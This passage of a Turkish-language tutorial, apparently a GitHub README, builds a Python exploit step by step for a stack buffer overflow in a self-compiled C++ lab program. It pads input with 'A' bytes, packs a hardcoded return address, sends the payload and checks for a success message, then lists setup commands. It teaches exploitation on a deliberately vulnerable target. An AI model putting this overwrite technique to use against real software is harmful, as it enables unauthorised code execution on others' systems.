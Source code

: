 Ardından programı başlatan kodu yazıyoruz:

```python
try:
    p = subprocess.Popen([VICTIM_PROGRAM], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
except FileNotFoundError:
    print(f"[!] HATA: '{VICTIM_PROGRAM}' bulunamadi. C++ kodunu derlediniz mi?")
    sys.exit(1)
```

Şimdi payloadlarımızı hazırlayan aşamayı yazıyoruz:

```python
padding = b'A' * PADDING_SIZE
overwrite_address = struct.pack("<Q", HARDCODED_ADDRESS)
payload = padding + overwrite_address
print(f"[*] Payload {len(payload)} byte olarak olusturuldu.")
print("[*] Payload kurban programa gonderiliyor...")
```

Ardından enjekte ettiğimiz fonksiyonun çıktılarını kontrol ettiğimiz aşamayı yazıyoruz:

```python
stdout_output_bytes, stderr_output_bytes = p.communicate(input=payload)

stdout_output = stdout_output_bytes.decode('utf-8', errors='ignore')
stderr_output = stderr_output_bytes.decode('utf-8', errors='ignore')

print("\n--- Kurban Programdan Gelen Cikti ---")
print(stdout_output)
print("--- Kurbandan Gelen Hata Ciktisi (varsa) ---")
print(stderr_output)
print("--- Exploit Tamamlandi ---")

if "Zafiyet Basariyla Somuruldu" in stdout_output:
    print("\n[+] Zafiyet basariyla istismar edildi!")
else:
    print("\n[-] Istismar basarisiz oldu.")
```

Ve sömürü kodumuzu çalıştırdığımızda başarıyla fonksiyonu enjekte ettiğimizi görüyoruz.

*Sömürünün Başarılı Olması*

## Hızlı Başlangıç

### Gereksinimler
```bash
# Linux
sudo apt-get update
sudo apt-get install g++ build-essential python3

# macOS
xcode-select --install
brew install python3

# Python paketleri
pip3 install pwntools
```
